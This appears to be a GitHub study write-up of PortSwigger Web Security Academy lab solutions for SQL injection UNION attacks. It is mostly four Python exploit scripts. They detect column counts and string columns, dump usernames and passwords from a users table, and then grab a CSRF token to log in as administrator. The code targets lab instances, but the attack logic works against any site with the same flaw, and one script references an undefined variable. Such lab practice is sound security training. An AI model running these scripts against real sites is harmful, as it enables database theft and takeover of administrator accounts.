




# SQL injection UNION attacks
https://portswigger.net/web-security/sql-injection/union-attacks


## 1 Determining the number of columns

```python
import requests
import json
import urllib

# Description:
# An automated SQL 'Union based' exploit script to perform the following:
# (1) identify number of columns
# (2) identify which column are String type
# (3) inject query
#
# This is my OSWE prep to better python scripting skills. 
# The lab used for this practice can be found in Portswigger Academy
# Web Security Academy > SQL injection > UNION attacks > Lab

# URL of target

#modify here ---------
baseURL = "https://0a9700410432ac98c0d71ef200580051.web-security-academy.net/"
#modify end ----------

exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"

found = False;
col_index = 0  # counter for no. of columns

#--(i) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")

while(found == False):
	payload = "' union select {}null--".format(col_index*'null,')
	res = requests.get(exploitURL+payload)
	if (keyword in res.text):
		found = True
		break
	else:
		col_index=col_index+1

col_count = col_index+1
print("	[+] Found! Total columns detected = {}\n".format(col_count))

```


## 2 Finding columns with a useful data type
Building on the previous script. 

```python
import requests
import json
import urllib

# Description:
# An automated SQL 'Union based' exploit script to perform the following:
# (1) identify number of columns
# (2) identify which column are String type
# (3) inject query
#
# This is my OSWE prep to better python scripting skills. 
# The lab used for this practice can be found in Portswigger Academy
# Web Security Academy > SQL injection > UNION attacks > Lab

# URL of target

#modify here ---------
baseURL = "https://0ab500db0405e681c0564ebe0060004d.web-security-academy.net"
providedString = "'kvXZWU'"
#modify end ----------

# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"

found = False;
col_index = 0  # counter for no. of columns

#--(i) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")

while(found == False):
	payload = "' union select {}null--".format(col_index*'null,')
	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if (res.status_code == 200):
		found = True
		break
	else:
		col_index=col_index+1

col_count = col_index+1
print(" [+] Found! Total columns detected = {}\n".format(col_count))

#--(i) detect column with text--------------------------------------------------
print("2 Detecting column with text")
found = False
# colText = 0 # counter for which column is string type

# Make the database retrieve the string: 'fk6EB0'
for index in range(col_count):
	array = ['null'] * col_count
	array[index] = providedString
	stringWithComma = ",".join(array) 
	payload = "' union select {}--".format(stringWithComma)

	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	res = requests.get(url = exploitURL+payload)
	if res.status_code == 200:	
		print(" [+] Found! column index {} is a string type\n".format(index))
		# colText = index
	if "Congratulations" in res.text:
		print(" [+] 'Congratulations' is found in response!")

```



## 3 Retrieve data from users table
This is a good 'lesson' because to automate this exploitation consisting of the following steps: 
1. Retrieve administrator password - Exploit the union command with a select statement
2. Scrap the password field using lib like BeautifulSoup 
3. Login with password - (i) get csrf token (ii) post with cookies and data

```python
import requests
import json
import urllib
from bs4 import BeautifulSoup

# Challenge 3: The database contains a different table called users, with columns called username 
# and password.
# To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, 
# and use the information to log in as the administrator user.
#
# Comments:
# This is a good 'lesson' because to automate this exploitation, we need to 
# 1. exploit the union command with a select statement to retrieve administrator password
# 2. scrap the password field using lib like BeautifulSoup 
# 3. before making post request to login with user, get csrf token (this was observed when first 
# capturing the login request using burp) remember to use the same session cookie 
# 4. post password to login - once login you will see 'Log out' present in the response as indicator
# that it was successful
#

#modify here ---------
baseURL = "https://0a75006804031dc4c0ff014100c200a8.web-security-academy.net"
cookies = {'session':'FJOGlfbZRGHVP4LGC3V91vJ933zhV8vt'}
#modify end ----------

exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"
username = ""
password = "" 
csrf_token = ""

print("3 Retrieve data from users table")

payload = "' union select username, password from users--"

html_content = requests.get(exploitURL+payload).text

soup = BeautifulSoup(html_content,"html.parser")


table = soup.find('table', class_='is-table-longdescription')
print("Searching for 'administrator' ...")
for row in table.tbody.find_all('tr'):
		headers = str(row.find_all('th'))
		if 'administrator' in headers:
			print("[+] Found password!")
			username = row.find('th').text.strip()
			password = row.find('td').text.strip()

print(" [+] username: {}".format(username))
print(" [+] password: {}".format(password))

#https://0aea00b004101da9c0db297000910086.web-security-academy.net/login
   # <section>
   #      <form class=login-form method=POST action=/login>
   #          <input required type="hidden" name="csrf" value="..................">
   #          <label>Username</label>

print("\nAttempt to login with credentials...")
print("finding csrf token... ")
html_content = requests.get(url = loginURL, cookies=cookies).text
soup = BeautifulSoup(html_content, "html.parser")
csrf_token = soup.find('input', {'name':'csrf'})['value']
print(" [+] csrf token found! : {}".format(csrf_token))

print("\nLoggin in... ")

# data body
# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
data = "csrf={}&username={}&password={}".format(csrf_token,username,password)

res = requests.post(url = loginURL, data = data, cookies=cookies)

#if login is successful you will see 'Log out' 
if "Log out" in res.text:
	print(" [+] Successfully logged in!")
```



## 4 retrieve multiple values in single column

Combining all above scripts into 1 single exploit. Do take note to make the script work check that these are modified in the script:
- Base URL
- Session Cookies
- Class name of the table which union select results will be displayed - should be 'is-table-list' if portswigger doesn't change changed

```python
import requests
import json
import urllib
from bs4 import BeautifulSoup

# 4 Final lab for union attack - SQL injection UNION attack, retrieving multiple values in a single column
# combine all scripts:
# (i) detect columns
# (ii) detect column with string value type
# (iii) exploit to get password
# (iv) login 

#modify here ---------
baseURL = "https://0a55006d0449e6e0c0d952ad003400ff.web-security-academy.net"
cookies = {'session':'RI5oTPe4rzjqSEOmz8S5fBFKDUWPv4jE'}
#modify end ----------

exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"
username = ""
password = "" 
csrf_token = ""

found = False;
col_index = 0  # counter for no. of columns

#--(i) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")

while(found == False):
	payload = "' union select {}null--".format(col_index*'null,')
	res = requests.get(exploitURL+payload)
	if (res.status_code == 200):
		found = True
		break
	else:
		col_index=col_index+1

col_count = col_index+1
print(" [+] Found! Total columns detected = {}\n".format(col_count))


#--(ii) detect column with string value type-------------------------------
print("2 Detecting column with text")
found = False
# colText = 0 # counter for which column is string type

# Make the database retrieve the string: 'fk6EB0'
for index in range(col_count):
	array = ['null'] * col_count
	array[index] = "'text'"
	stringWithComma = ",".join(array) 
	payload = "' union select {}--".format(stringWithComma)

	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	res = requests.get(url = exploitURL+payload)
	if res.status_code == 200:	
		print(" [+] Found! column index {} is a string type\n".format(index))
		colText = index
		break

#---# (iii) exploit to get password-------------------------------------------

# ' union select null,username||'~'||password from users--
print("3 Retrieve data from users table")

array = ['null'] * col_count
array[colText] = "username||'~'||password"
stringWithComma = ",".join(array)
payload = "' union select {} from users--".format(stringWithComma)
html_content = requests.get(exploitURL+payload).text
soup = BeautifulSoup(html_content,"html.parser")

table = soup.find('table', class_='is-table-list')
print("Searching for 'administrator' ...")
for row in table.tbody.find_all('tr'):
		headers = str(row.find_all('th'))
		if 'administrator' in headers:
			print("[+] Found username and password!")
			userpass = row.find('th').text.strip()
			username = userpass.split("~")[0]
			password = userpass.split("~")[1]

print(" [+] username: {}".format(username))
print(" [+] password: {}".format(password))

#https://0aea00b004101da9c0db297000910086.web-security-academy.net/login
   # <section>
   #      <form class=login-form method=POST action=/login>
   #          <input required type="hidden" name="csrf" value="..................">
   #          <label>Username</label>

print("\nAttempt to login with credentials...")
print("finding csrf token... ")
html_content = requests.get(url = loginURL, cookies=cookies).text
soup = BeautifulSoup(html_content, "html.parser")
csrf_token = soup.find('input', {'name':'csrf'})['value']
print(" [+] csrf token found! : {}".format(csrf_token))

print("\n4 Loggin in... ")

# data body
# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
data = "csrf={}&username={}&password={}".format(csrf_token,username,password)

res = requests.post(url = loginURL, data = data, cookies=cookies)

#if login is successful you will see 'Log out' 
if "Log out" in res.text:
	print(" [+] Found 'Log out' string in response! Successfully logged in!")
```

